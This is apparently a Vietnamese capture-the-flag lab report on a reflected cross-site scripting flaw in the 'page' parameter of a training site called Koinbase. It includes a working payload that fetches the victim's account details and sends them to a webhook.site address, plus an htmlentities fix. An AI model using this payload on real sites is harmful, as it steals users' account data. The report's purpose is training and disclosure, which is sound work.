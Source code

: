 ### Steps to reproduce

 1. Vào trang [**Web-Main**](https://koinbase-ff27148a4.cyberjutsu-lab.tech) sau khi đăng nhập thành công hệ thống sẽ tự chuyển qua trang [/index.php](https://koinbase-ff27148a4.cyberjutsu-lab.tech/index.php) tại đây sử dụng tính năng phân trang để di chuyển qua lại giữa các trang.
 2. Thay đổi giá trị của biến "**$_GET['page']**" trên thanh địa chỉ thành PAYLOAD sau:
```
https://koinbase-ff27148a4.cyberjutsu-lab.tech/?page=<img%20src="/api/user.php?action=detail_info"%20alt="GEThttps://webhook.site/42ea281f-d084-47a7-b9d5-49a0e71cc3de?c="%20onerror="var req=new XMLHttpRequest();req.open(this.alt.substring(0,3),this.src,false);req.send(null);var js=req.responseText;req=new XMLHttpRequest();req.open(this.alt.substring(0,3),this.alt.substring(3).concat(js),false);req.send(null);"/>
```
 3. Đoạn PAYLOAD ở trên sẽ được gửi cho nạn nhân khi nạn nhân CLICK vào liên kết ngay lập tức thông tin tài khoản của nạn nhân sẽ bị đánh cấp và gửi về máy chủ của kẻ tấn công.

![enter image description here](https://raw.githubusercontent.com/facetofate/cbjs-test/main/img/KB-04-XSS-info.JPG)
 *FLAG 3*

### Attachments


### Recommendations
- Sử dụng hàm HTML ENCODE để mã hóa nội dung có chứa các thẻ **HTML** trước khi cho hiển thị lên website.
```
<?php  
$str = '<a href="https://www.w3schools.com">Go to w3schools.com</a>';  
echo htmlentities($str);  
?>
```
*Đoạn code PHP mã hóa thẻ HTML*

